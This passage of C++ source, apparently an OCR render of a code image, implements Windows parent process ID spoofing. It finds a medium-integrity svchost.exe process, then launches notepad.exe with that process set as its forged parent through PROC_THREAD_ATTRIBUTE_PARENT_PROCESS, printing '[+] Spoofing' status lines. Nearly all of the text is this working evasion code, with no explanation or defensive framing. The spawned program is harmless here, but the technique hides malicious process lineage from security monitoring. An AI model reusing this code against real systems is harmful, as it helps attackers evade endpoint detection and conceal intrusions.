 ```cpp
    }
    else if (dwIntegrityLevel >= SECURITY_MANDATORY_SYSTEM_RID) {
        return L"SYSTEM";
    }
}

DWORD getPPID(LPCWSTR processName) {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, processName)) {
                HANDLE hProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, process.th32ProcessID);
                if (hProcess) {
                    LPCWSTR integrityLevel = NULL;
                    integrityLevel = getIntegrityLevel(hProcess);
                    if (!wcscmp(integrityLevel, L"MEDIUM")) {
                        break;
                    }
                }
            }
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {
    STARTUPINFOEXA si;
    PROCESS_INFORMATION pi;
    SIZE_T attributeSize;
    ZeroMemory(&si, sizeof(STARTUPINFOEXA));

    LPCWSTR parentProcess = L"svchost.exe";
    DWORD parentPID = getPPID(parentProcess);
    printf("[+] Spoofing %ws (PID: %u) as the parent process.\n", parentProcess, parentPID);
    HANDLE parentProcessHandle = OpenProcess(MAXIMUM_ALLOWED, false, parentPID);

    InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
    si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attributeSize);
    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);
    UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &parentProcessHandle, sizeof(HANDLE), NULL, NULL);
    si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
    LPCWSTR spawnProcess = L"C:\\Windows\\System32\\notepad.exe";
    CreateProcess(spawnProcess, NULL, NULL, NULL, TRUE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (STARTUPINFO*)&si, &pi);
    printf("[+] Spawning %ws (PID: %u)\n", spawnProcess, pi.dwProcessId);

    return 0;
}
```
